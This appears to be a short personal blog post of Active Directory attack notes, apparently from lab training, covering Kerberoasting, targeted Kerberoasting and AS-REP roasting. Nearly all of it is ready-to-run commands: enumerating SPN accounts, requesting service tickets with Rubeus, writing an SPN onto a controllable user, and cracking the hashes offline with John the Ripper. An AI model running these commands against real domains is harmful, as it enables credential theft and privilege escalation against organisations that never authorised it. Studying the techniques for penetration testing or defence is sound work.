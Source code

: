 ```yaml
---
layout: post
date: 30/10/2022
author: Aswin Gopalakrishnan
title: Kerberoast and Variants
---
```


## Kerberoasting

1. Find Service Accounts
```powershell
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
Get-DomainUser –SPN
```
2. Escalation via Service Accounts - Use Rubeus to request a TGS
```powershell
Rubeus.exe kerberoast /user:serviceaccount /simple /rc4opsec
Rubeus.exe kerberoast /rc4opsec /outfile:hashes.txt
```
3. Crack Ticket
```bash
john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-
pass.txt C:\AD\Tools\hashes.txt
```

## Targeted Kerberoasting

1. Find "Write" Permissions
```powershell
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "StudentUsers"}
```
  
2. Find SPN
```powershell
Get-DomainUser -Identity support1user | select serviceprincipalname
Get-ADUser -Identity support1user -Properties ServicePrincipalName | select ServicePrincipalName
```

3. Set-SPN
```powershell
Set-DomainObject -Identity support1user -Set @{serviceprincipalname='us/myspnX'}
Set-ADUser -Identity support1user -ServicePrincipalNames @{Add='us/myspnX'}
    ```

4. Kerberoasting
```powershell
Rubeus.exe kerberoast /outfile:targetedhashes.txt john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\targetedhashes.txt
```

## AS-REP Roasting

Find accounts without Kerberos preauthentication and request an AS-REP hash for offline cracking:
```powershell
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth
Invoke-ASREPRoast -Verbose
```
